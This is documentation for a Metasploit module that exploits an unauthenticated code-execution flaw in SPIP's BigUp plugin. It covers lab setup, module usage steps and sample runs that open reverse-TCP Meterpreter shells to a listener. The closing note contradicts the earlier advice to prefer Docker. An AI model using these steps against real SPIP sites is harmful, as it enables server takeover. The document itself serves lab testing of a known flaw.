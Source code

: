 ## Vulnerable Application

This Metasploit module exploits a Remote Code Execution vulnerability in SPIP
versions up to and including 4.3.1, specifically in the BigUp plugin.
The vulnerability occurs due to improper handling of file uploads in the
`lister_fichiers_par_champs` function, which can be exploited by crafting a malicious multipart form request.
This allows an attacker to inject and execute arbitrary PHP code on the server.

### Non-Docker Setup

To replicate a vulnerable environment for testing, follow these steps:

1. Download and set up SPIP version 4.3.1.
2. Use the built-in PHP server to host the SPIP instance.

#### Commands to Set Up the Vulnerable Environment:

```bash
wget https://files.spip.net/spip/archives/spip-v4.3.1.zip
mkdir spip && mv spip-v4.3.1.zip spip
cd spip && unzip spip-v4.3.1.zip
php -S 0.0.0.0:8000
```

- **SPIP Access URL:** `http://localhost:8000`
- **SPIP Version:** 4.3.1

After starting the PHP server, SPIP will be accessible at `http://localhost:8000`.

To complete the installation:

1. Navigate to `http://localhost:8000/ecrire` to access the SPIP web installation panel.
2. Follow the on-screen instructions to complete the setup.

### Docker Setup

To replicate a vulnerable environment for testing, follow these steps:

1. Pull the vulnerable SPIP Docker image:

```bash
docker run --name casse-spip -p 8000:80 \
    -e SPIP_DB_SERVER=sqlite3 \
    -e SPIP_SITE_ADDRESS=http://127.0.0.1 \
    -d ipeos/spip:4.3.1
```

2. Go to `http://localhost:8000` to access the SPIP application.

It is recommended to use the Docker installation because the non-Docker version automatically
retrieves the latest plugin updates, making the exploit ineffective.
The Docker version ensures a vulnerable environment.

## Verification Steps

1. Set up a SPIP instance using the commands provided above.
2. Launch `msfconsole` in your Metasploit framework.
3. Use the module: `use exploit/multi/http/spip_bigup_unauth_rce`.
4. Set `RHOSTS` to the local IP address or hostname of the target.
5. Configure necessary options such as `TARGETURI`, `SSL`, and `RPORT`.
6. Execute the exploit using the `run` or `exploit` command.
7. If the target is vulnerable, the module will execute the specified payload.

## Options

- **FORM_PAGE**: This option allows you to specify a custom page on the target SPIP installation that contains a form.
By default, the module will automatically check the `login` and `contact` pages for forms,
but if you know of another page that contains a form, you can specify it here.
For example, if an article page contains a form, you can set this option like so:

```
set FORM_PAGE /spip.php?article1
```

This will instruct the module to look for the form data on `/spip.php?article1`.
If the specified page contains the vulnerable form, the module will proceed with the exploitation.
This option is particularly useful when the default pages (`login` and `contact`) do not contain the form or are not accessible.

## Scenarios

### Successful Exploitation Against Local SPIP 4.3.1

**Setup**:

- Local SPIP instance with version 4.3.1.
- Metasploit Framework.

**Steps**:

1. Start `msfconsole`.
2. Load the module via `use exploit/multi/http/spip_bigup_unauth_rce`
3. Set `RHOSTS` to the local IP (e.g., 127.0.0.1).
4. Configure other necessary options (`TARGETURI`, `SSL`, etc.).
5. Launch the exploit:
```bash
exploit
```

**Expected Results**:

With `php/meterpreter/reverse_tcp`:

```bash
msf6 exploit(multi/http/spip_bigup_unauth_rce) > run http://127.0.0.1:8000

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.3.1
[+] SPIP version 4.3.1 is vulnerable.
[*] Bigup plugin version detected: 3.2.11
[+] The target appears to be vulnerable. Both the detected SPIP version (4.3.1) and bigup version (3.2.11) are vulnerable.
[*] Found formulaire_action: login
[*] Found formulaire_action_args: yt4d8ri/avF6LO/OwLA2O...
[*] Preparing to send exploit payload to the target...
[*] Sending stage (39927 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.1.36:4444 -> 172.17.0.2:54956) at 2024-09-08 05:53:39 +0200

meterpreter > sysinfo 
Computer    : d6c6866cac5a
OS          : Linux d6c6866cac5a 5.15.0-119-generic #129-Ubuntu SMP Fri Aug 2 19:25:20 UTC 2024 x86_64
Meterpreter : php/linux
```

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```bash
msf6 exploit(multi/http/spip_bigup_unauth_rce) > run http://127.0.0.1:8000

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.3.1
[+] SPIP version 4.3.1 is vulnerable.
[*] Bigup plugin version detected: 3.2.11
[+] The target appears to be vulnerable. Both the detected SPIP version (4.3.1) and bigup version (3.2.11) are vulnerable.
[*] Found formulaire_action: login
[*] Found formulaire_action_args: yt4d8ri/avF6LO/OwLA2O...
[*] Preparing to send exploit payload to the target...
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Meterpreter session 2 opened (192.168.1.36:4444 -> 172.17.0.2:55956) at 2024-09-08 05:54:43 +0200

meterpreter > sysinfo 
Computer     : 172.17.0.2
OS           : Debian 11.10 (Linux 5.15.0-119-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

- The module successfully exploits the vulnerability and opens a Meterpreter session on the target.

**Note**: Ensure the SPIP instance is correctly configured and running using the manual setup for the exploit to work as expected.
